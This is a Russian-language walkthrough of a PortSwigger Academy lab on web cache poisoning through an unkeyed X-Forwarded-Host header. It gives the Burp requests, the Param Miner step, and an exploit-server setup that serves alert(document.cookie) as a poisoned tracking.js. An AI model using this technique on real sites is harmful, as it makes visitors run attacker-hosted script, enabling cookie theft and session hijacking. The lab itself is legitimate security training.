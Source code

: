 Перейдем на уязвимый ресурс 

И проанализируем запросы при открытии домашней страницы и отправим его в `Repeater`

```
GET / 
```

И видим следующие заголовки в ответе 
```
Cache-Control: max-age=30
Age: 0
X-Cache: miss
```
Далее разберемся что каждое из данных заголовков означает - 

`Cache-Control: max-age=30` - максимальный срок жизни кэша составляет 30 секунд

`Age: 0` - сколько прошло с момента обновления кэша

`X-Cache: miss` - это новый, ранее не кешированный запрос

Если же мы увидим `X-Cache: hit` то `Age` у него будет не нулевой, но все равно в пределах `0 < Age < 30`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/1.%20Web%20cache%20poisoning%20with%20an%20unkeyed%20header/pics%20for%20walkthrough/1.png)

Далее нам необходимо установить расширение Param miner для поиска дополнительного заголовка, который нам поможет

А запрос изменим на `GET /?cb=123 `
и нажмем `ПКМ -> Extenstion -> Param miner -> Guess params -> Guess Headers`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/1.%20Web%20cache%20poisoning%20with%20an%20unkeyed%20header/pics%20for%20walkthrough/2.png)

И далее спустя время в `Target -> Issues -> Cache poisoning` увидим параметр `x-forwarded-host` который нам может быть полезен
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/1.%20Web%20cache%20poisoning%20with%20an%20unkeyed%20header/pics%20for%20walkthrough/3.png)

Далее перейдем в `Exploit server` и возьмем его URL, чтобы было перенаправление 
```
exploit-0afa0094049078cb812e1a6701640068.exploit-server.net
```
а в поле File вставим путь к .js скрипту `/resources/js/tracking.js`
а в Body вставим `alert(document.cookie)`
а вот как это выглядит в `Exploit Server`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/1.%20Web%20cache%20poisoning%20with%20an%20unkeyed%20header/pics%20for%20walkthrough/4.png)

А вот как в запросе в Repeater, который мы отправили
```
GET /?cb=123 
X-Forwarded-Host: exploit-0afa0094049078cb812e1a6701640068.exploit-server.net
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/1.%20Web%20cache%20poisoning%20with%20an%20unkeyed%20header/pics%20for%20walkthrough/5.png)

а далее перейдем по корневой странице с уже закешированным
```
GET / 
X-Forwarded-Host: exploit-0afa0094049078cb812e1a6701640068.exploit-server.net
```
Увидим, что  пэйлоад отработал, и мы получим уведомление об успешной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/1.%20Web%20cache%20poisoning%20with%20an%20unkeyed%20header/pics%20for%20walkthrough/6.png)
